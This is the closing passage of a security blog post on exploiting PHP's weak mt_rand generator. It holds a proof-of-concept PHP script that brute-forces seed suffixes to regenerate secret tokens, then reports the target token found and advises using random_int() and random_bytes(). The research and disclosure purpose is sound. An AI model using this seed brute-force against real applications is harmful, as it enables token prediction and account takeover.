 ```
        $combination = '';
        $temp = $i;
        for ($j = 0; $j &lt; $length; $j++) {
            $combination = $characters[$temp % count($characters)] . $combination;
            $temp = intdiv($temp, count($characters));
        }
        $combinations[] = $combination;
    }
    return $combinations;
}





// Define the length of the number and the allowed characters
$length = 6;
$characters = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9'];

// Generate and print all combinations
$allCombinations = generateCombinations($length, $characters);
foreach ($allCombinations as $combination) {
    // Set the seed for the random number generator , <mark>enter only the start of the seed </mark>
    $seed = "<mark>1851</mark>".(string)$combination;
srand($seed);
echo ("using seed ". $seed . " : ". generateRandomString(32)." \n");
    // echo $combination . PHP_EOL;
}

?&gt;
```

After running the POC PHP script:

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_233013.png)

Figure 15 – Success!

The attack was successful and the target token was found.

Now we need to brute force all of the tokens, which is only 1,000,000 and can be brute forced in couple of hours.

## Conclusion

In this blog post we exploited the PHP mt\_rand function in two different scenarios and showed the exploitability in a real world attack. In 2024, mt\_rand is still used by programmers to generate random passwords and tokens or even user IDs. The mt\_rand function is not secure and puts your software at risk. If you’re looking for a good alternative, we recommend using a secure random generator function like **random\_int()** and **random\_bytes()** to generate secrets and never use mt\_rand.

